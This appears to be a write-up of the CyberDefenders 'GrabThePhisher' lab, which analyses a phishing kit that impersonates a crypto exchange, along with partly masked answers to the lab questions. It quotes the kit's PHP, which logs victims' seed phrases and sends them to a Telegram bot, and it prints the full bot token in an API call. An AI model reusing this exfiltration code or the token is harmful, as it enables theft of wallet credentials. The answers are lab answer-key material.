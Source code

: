 ```yaml
---
title: "GrabThePhisher"
classes: wide
header:
  teaser: /assets/images/Covers/GrabThePhisher.jpeg
ribbon:   Green
description: "A Walkthrough to the Cyberdefenders blue team lab focusing on Threat Intel and Reverse Engineering."
categories:
  - Reverse Engineering
toc: true
---
```




# [**GrabThePhisher**](https://cyberdefenders.org/blueteam-ctf-challenges/95/)
## **Scenario:**

An attacker compromised a server and impersonated https://pancakeswap.finance/, a decentralized exchange native to BNB Chain, to host a phishing kit at https://apankewk.soup.xyz/mainpage.php. The attacker set it as an open directory with the file name "pankewk.zip". 

Provided the phishing kit, you as a soc analyst are requested to analyze it and do your threat intel homework.

**Author:** Milann SHRESTHA     
**Difficulty:** Easy 

## Walkthrough
We start by unziping the file named `c75-GrabThePhisher.zip`, which has been provided, using `cyberdefenders.org` as password.

**Q1:** Which wallet is used for asking the seed phrase?

After decompressing, we are left with a some files including an HTML file, exploring the content we see some wallets, only one off these wallets matches 

![alt text](/assets/images/reverse-engineering/GrabThePhisher/wallets.png)

Exploring the code, We see that only one wallet that has a "onclick" event for its buttons is `MetaMask` which uses JavaScript (vib(1); jj2 = true; jj = true;). This is commonly designed for asking the seed phrase.

![alt text](/assets/images/reverse-engineering/GrabThePhisher/index-3.png)
![alt text](/assets/images/reverse-engineering/GrabThePhisher/index-1.png) 
![alt text](/assets/images/reverse-engineering/GrabThePhisher/index-2.png)

>**Answer:** `Meta****`

___

**Q2:** What is the file name that has the code for the phishing kit?

Opening the Metamask folder, there are three files: 
- Fonts
- index.html
- metamask.php

Inside the `metamask.php`, we see thee following code:

```php
$date = date("m.d.Y");
$message = "<b>Welcome 2 The Jungle </b> 
    
<b>Wallet:</b> Metamask
<b>Phrase:</b> <code>" . $_POST["data"] . "</code>
<b>IP:</b> " .$_SERVER['REMOTE_ADDR'] . " | " .$geo. " | " .$city. "
<b>User:</b> " . $_SERVER['HTTP_USER_AGENT'] . "";
```
This constructs an HTML-formatted message containing:
- The wallet type (MetaMask is hardcoded).
- The recovery phrase entered by the victim ($_POST["data"]).
- The attacker captures this phrase, which can be used to take full control of the victim’s wallet.
- The IP address, geolocation (country and city), and the user-agent string (browser and device information).

So, this is the file that  has the code for the phishing kit.

>**Answer:** `Meta****.php`

___

**Q3:** In which language was the kit written?

>**Answer:** `PHP`

___


**Q4:** What service does the kit use to retrieve the victim's machine information?

At the beginning the code, we see the following block:

```php
$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']); 
$array = json_decode($request);
$geo = $array->country->name_en;
$city = $array->city->name_en;
```

This block of code uses the `Sypex Geo` API to retrieve the geolocation of the user based on their IP address `$_SERVER['REMOTE_ADDR']`, The country and city names are extracted and stored in $geo and $city.

>**Answer:** `Sy*** G**`

___

**Q5:** How many seed phrases were already collected?

later in the code, we see this block:

```php
$_POST["import-account__secret-phrase"]. $text = $_POST['data']."\n";
@file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);	
```

Which is used to ensures the attacker has a backup of the stolen phrases, the recovery phrase `$_POST['data']` is also logged locally in a file `log.txt` on the server.

Now, we go the `log.txt`, we see that it has 3 already collected phrases:

![alt text](/assets/images/reverse-engineering/GrabThePhisher/logs.png)

>**Answer:** `3`

___

**Q6:** Write down the seed phrase of the most recent phishing incident?

>**Answer:** `father also recycle ******** ******** ******** ******** ******** ******** ******** ********`

___

**Q7:** Which medium had been used for credential dumping?

The following block of code uses the `sendTel()` function to send a crafted message to a Telegram chat.

The Telegram Bot API is used here. The bot token `$token` and chat ID `$id` are hardcoded.

It constructs the Telegram API URL and uses `file_get_contents()` to send the message via the bot, delivering the stolen information (recovery phrase, IP, etc.) to the attacker's Telegram account.

```php
sendTel($message);  
	
function sendTel($message){
    $id = "5442785564"; 
    $token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
    $filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
    file_get_contents($filename);
```

>**Answer:** `Tele****`

___

**Q8:** What is the token for the channel?

>**Answer:** `5457463144:AAG8t4k7e2e************************`

___

**Q9:** What is the chat ID of the phisher's channel?

>**Answer:** `5442******`

___

**Q10:** What are the allies of the phish kit developer?

The attacker had fingerprinted his code with the following greeting massage:

```php
/*
 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
 */
```

>**Answer:** `j1j1b1s@****`

___

**Q11:** What is the full name of the Phish Actor?

Using the following request to the getChat method:

```php
https://api.telegram.org/bot5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10/getChat?chat_id=5442785564
```

The response is:

![alt text](/assets/images/reverse-engineering/GrabThePhisher/api_response.png)

>**Answer:** `Mar*** Aure****lius****`

___

**Q12:** What is the username of the Phish Actor?

>**Answer:** `pumpkin****`


___
___

<p align="center"><span style="color:#00FFFF;">THE END</span></p>


___
___